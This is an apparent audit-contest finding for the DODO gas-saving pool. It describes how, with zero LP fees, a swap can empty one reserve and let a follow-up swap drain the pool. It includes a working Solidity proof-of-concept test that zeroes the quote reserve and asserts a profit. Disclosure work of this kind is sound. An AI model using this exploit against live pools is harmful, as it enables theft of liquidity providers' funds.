 Witty Cerulean Panther

high

# Pool can be drained if there are no LP_FEES

## Summary
The pool can be depleted because swaps allow the withdrawal of the entire balance, resulting in a reserve of 0 for a specific asset. When an asset's balance reaches 0, the PMMPricing algorithm incorrectly estimates the calculation of output amounts. Consequently, the entire pool can be exploited using a flash loan by depleting one of the tokens to 0 and then swapping back to the pool whatever is received.
## Vulnerability Detail
Firstly, as indicated in the summary, selling quote/base tokens can lead to draining the opposite token in the pool, potentially resulting in a reserve of 0. Consequently, the swapping mechanism permits someone to entirely deplete the token balance within the pool. In such cases, the calculations within the pool mechanism become inaccurate. Therefore, swapping back to whatever has been initially purchased will result in acquiring more tokens, further exacerbating the depletion of the pool.

Allow me to provide a PoC to illustrate this scenario:
```solidity
function test_poolCanBeDrained() public {
        // @review 99959990000000000000000 this amount makes the reserve 0
        // run a fuzz test, to get the logs easily I will just use this value as constant but I found it via fuzzing
        // selling this amount to the pool will make the quote token reserves "0".
        vm.startPrank(tapir);
        uint256 _amount = 99959990000000000000000;

        //  Buy shares with tapir, 10 - 10 initiate the pool
        dai.transfer(address(gsp), 10 * 1e18);
        usdc.transfer(address(gsp), 10 * 1e6);
        gsp.buyShares(tapir);

        // make sure the values are correct with my math
        assertTrue(gsp._BASE_RESERVE_() == 10 * 1e18);
        assertTrue(gsp._QUOTE_RESERVE_() == 10 * 1e6);
        assertTrue(gsp._BASE_TARGET_() == 10 * 1e18);
        assertTrue(gsp._QUOTE_TARGET_() == 10 * 1e6);
        assertEq(gsp.balanceOf(tapir), 10 * 1e18);
        vm.stopPrank();
        
        // sell such a base token amount such that the quote reserve is 0
        // I calculated the "_amount" already which will make the quote token reserve "0"
        vm.startPrank(hippo);
        deal(DAI, hippo, _amount);
        dai.transfer(address(gsp), _amount);
        uint256 receivedQuoteAmount = gsp.sellBase(hippo);

        // print the reserves and the amount received by hippo when he sold the base tokens
        console.log("Received quote amount by hippo", receivedQuoteAmount);
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());

        // Quote reserve is 0!!! That means the pool has 0 assets, basically pool has only one asset now!
        // this behaviour is almost always not a desired behaviour because we never want our assets to be 0 
        // as a result of swapping or removing liquidity.
        assertEq(gsp._QUOTE_RESERVE_(), 0);

        // sell the quote tokens received back to the pool immediately
        usdc.transfer(address(gsp), receivedQuoteAmount);

        // cache whatever received base tokens from the selling back
        uint256 receivedBaseAmount = gsp.sellQuote(hippo);

        console.log("Received base amount by hippo", receivedBaseAmount);
        console.log("Base target", gsp._BASE_TARGET_());
        console.log("Quote target", gsp._QUOTE_TARGET_());
        console.log("Base reserve", gsp._BASE_RESERVE_());
        console.log("Quote reserve", gsp._QUOTE_RESERVE_());
        
        // whatever received in base tokens are bigger than our first flashloan! 
        // means that we have a profit!
        assertGe(receivedBaseAmount, _amount);
        console.log("Profit for attack", receivedBaseAmount - _amount);
    }
```

Test results and logs:
<img width="529" alt="image" src="https://github.com/sherlock-audit/2023-12-dodo-gsp-mstpr/assets/120012681/ac3f07f2-281f-485e-b8df-812045f8a88b">

## Impact
Pool can be drained, funds are lost. Hence, high. Though, this can only happen when there are no "LP_FEES". However, when we check the default settings of the deployment, we see [here](https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/scripts/DeployGSP.s.sol#L22) that the LP_FEE is set to 0. So, it is ok to assume that the LP_FEES can be 0.

## Code Snippet
https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPTrader.sol#L40-L113
## Tool used

Manual Review

## Recommendation
Do not allow the pools balance to be 0 or do not let LP_FEE to be 0 in anytime.  